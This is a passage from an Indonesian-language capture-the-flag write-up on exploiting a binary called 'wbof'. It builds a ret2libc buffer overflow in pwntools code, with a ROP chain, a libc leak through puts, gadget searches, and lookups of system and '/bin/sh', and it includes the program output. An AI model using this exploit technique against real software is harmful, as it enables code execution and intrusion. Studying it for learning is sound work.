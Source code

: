 Kemudian, saya jadikan 1 payload nya dngn bufferoverflow
```python
payload = [
    b"A" * BUFF_SIZE,
    rop.chain()
]

# Send Payload
payload = b"".join(payload)
p.sendline(payload)

log.success("Payload : " + str(payload))
log.success("Payload Size : " + str(len(payload)))
log.success(hexdump(payload))
```
```
[*] Loaded cached gadgets for './wbof'
[+] Payload : b'AAAAAAAAAAAAAAAAAAAAAAAAAAAA3\x13@\x00\x00\x00\x00\x00\x18@@\x00\x00\x00\x00\x000\x10@\x00\x00\x00\x00\x00\x1a\x10@\x00\x00\x00\x00\x00\x80\x10@\x00\x00\x00\x00\x00kaaalaaa'
[+] Payload Size : 76
[+] 00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  33 13 40 00  │AAAA│AAAA│AAAA│3·@·│
    00000020  00 00 00 00  18 40 40 00  00 00 00 00  30 10 40 00  │····│·@@·│····│0·@·│
    00000030  00 00 00 00  1a 10 40 00  00 00 00 00  80 10 40 00  │····│··@·│····│··@·│
    00000040  00 00 00 00  6b 61 61 61  6c 61 61 61               │····│kaaa│laaa││
    0000004c
```
Fungsi yang saya gunakan pada ROP
```python
rop.call(wbof.symbols[b'_start'])
```
Adalah untuk me-restart instruksi pada program agar dapat melakukan bufferoverflow dan menjalankan fungsi dari <b>libc.so</b>. Setelah saya melakukan instruksi ulang, disini saya melakukan <b>determined</b> antara <b>libc.so</b> address dengan <b>wobf</b> address
```python
# Mengambil Address dari puts pada wbof
puts = p.recvuntil("wb0f~\n").rstrip()
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
log.success(f"Puts address : {hex(puts)}")

libc.address = puts - libc.symbols[b'puts']
log.info(f"libc base address determined {hex(libc.address)}")
```
```
[+] Puts address : 0x7fb0d06365a0
[*] libc base address determined 0x7fb0d05af000
```
Dikarenakan instruksi <b>_start</b> di panggil lagi, kita harus menginput kembali <b>Max Buffer</b> nya
```python
p.recvuntil("whut time is now ? ")
log.info("Sending buffer " + str(SIZE_TOOV))
p.sendline(str(SIZE_TOOV))
```
Disini saya harus mencari address dari <b>wbof</b> untuk menentukan lokasi <b>return / ret</b>, biasanya orang menggunakan <b>ROPgadget</b> untuk mencari tau lokasinya
```python
RET = (rop.find_gadget(['ret']))[0]
# Hasilnya sama dengan
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
```
Dan ada beberapa fungsi code yang tidak bisa saya jelaskan tapi saya memahami nya :v
```python
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym[b"system"]

log.info("bin/sh %s " % hex(BINSH))
```